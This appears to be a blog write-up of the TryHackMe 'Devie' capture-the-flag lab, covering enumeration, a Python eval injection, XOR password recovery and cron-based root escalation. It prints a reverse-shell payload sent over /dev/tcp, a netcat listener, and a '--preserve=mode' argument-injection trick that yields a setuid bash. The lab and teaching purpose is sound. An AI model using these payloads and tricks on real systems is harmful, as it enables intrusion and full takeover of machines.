 ```yaml
---
title: "Devie TryHackMe"
collection: publications
permalink: /publication/devie
excerpt: 'This is a subscriber only room from TryHackMe'
date: 2023-06-28
venue: '06-28'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
#citation: 'Your Name, You. (2009). &quot;Paper Title Number 1.&quot; <i>Journal 1</i>. 1(1).'
---
```


![header](/images/devie-header.png)

**LINK :** [Devie](https://tryhackme.com/room/devie)

# Enumeration : 

* Let's start by looking for open ports.

```console
└─# nmap -sC -sV -T4 10.10.152.117
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-27 09:51 EDT
Nmap scan report for 10.10.152.117
Host is up (0.10s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c9727bf5b62ed5995614de43093a6492 (RSA)
|   256 0b75585ab9f75ba9ffefad71c1090a33 (ECDSA)
|_  256 7df9c9f867f9954e016823a47b8c9830 (ED25519)
5000/tcp open  upnp?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.1.2 Python/3.8.10
|     Date: Tue, 27 Jun 2023 13:51:28 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 4486
|     Connection: close
```
* We have 2 open ports, ``ssh`` running on port ``22`` and a web application running on port ``5000``
* Visiting ``http://X.X.X.X:5000``, we see a Math Formulas page.

![devie1](/images/devie1.png)

* You can see below a link to download the code source.

![devie2](/images/devie2.png)

* We have 4 python scripts.
* The main function is in ``app.py``, while i was reading the script, i noticed that the ``bisect`` function uses ``eval`` which is vulnerable to command injection.

![devie3](/images/devie3.png)

> [Hacktricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes)

* All we need to do now is to inject a payload into the ``xa`` parameter of the ``bisect`` function, for that i will use ``burp suite``.

![devie4](/images/devie4.png)

# Flag 1 :

* As you can see we have to add ``#`` at the end of the injected payload to comment out the rest of the expression.

```console
__import__('os').system('/bin/bash -c \'bash+-i+>%26+/dev/tcp/<your-ip-address>/4444+0>%261\'')
```

> Dont forget to add your ip address and url-encode the payload.

![devie5](/images/devie5.png)

* Before send the request, you should open a netcat listener.

```console
nc -lvnp 4444
```

![devie6](/images/devie6.png)

# Flag 2 :

* I found a note in Bruce's home directory 

![devie7](/images/devie7.png)

* So as you can see Gordon shares his encoded XOR password.

* Let's see our sudo privileges

![devie8](/images/devie8.png)

* So as you can see we can run ``encrypt.py`` as ``gordon```

![devie9](/images/devie9.png)

* So the idea here is to enter ``hammertime4444`` as password and grab the output which XORed,base64-encoded password, then pass it to [Cyberchef](https://gchq.github.io/CyberChef/), As a recipe we will use ``from base64`` and ``XOR`` with the password entered using ``encrypt.py`` as the key.

![devie10](/images/devie10.png)

* [4] is the key

* Now we have the key used in the XOR operation.

> The special thing about ``XOR`` is because we know the initial and final value of the password, we can extract the key used in the XOR operation.

* Now it's time to decode the encoded string from Gordan's note using the key we found.

![devie11](/images/devie11.png)

* Switch user to ``Gordon`` and get your 2nd flag.

![devie12](/images/devie12.png)

> The password works also for ``SSH``.

# Flag 3 :

* We found a ``reports`` and ``backups`` folders which seems to be copies of each others with the copied files stored in the ``backups`` folder.

![devie13](/images/devie13.png)

* I spent a lot of times trying to figure out what's the next step until i noticed that the time of backups directory files changes every minutes and the ownership of these files is ``root`` so a backup job is most likely running as ``root``.

* It's time to use ``pspy`` to snoop on processes without need for root permissions.

> [Pspy](https://github.com/DominicBreuker/pspy)

![devie14](/images/devie14.png)

* As you can see there is a ``backup`` script that get executed every minute, let's see what this script is used for.

![devie15](/images/devie15.png)

* If we put any binary into ``reports`` folder, it will be copied to ``backups`` folder with ``root`` ownership.
* My idea is to copy ``/bin/bash`` to ``reports`` folder and assign it the **setuid bit**, but the problem is that privilege will not be copied by ``cp`` command by default, fortunately we can create a file named ``--preserve=mode`` so the permission is maintained when it gets copied to the ``backups`` folder.

> [Preservation mode](https://www.makeuseof.com/preserve-file-permissions-in-linux-while-copying-them/)

![devie16](/images/devie16.png)

![devie17](/images/devie17.png)

* We wait one minute for the cron to execute, change directory to ``backups`` folder and you should see the ``bash`` binary with **setuid bit**.

![devie18](/images/devie8.png)

* Execute this command and get the root flag.

```console
./bash -p
```

![devie19](/images/devie19.png)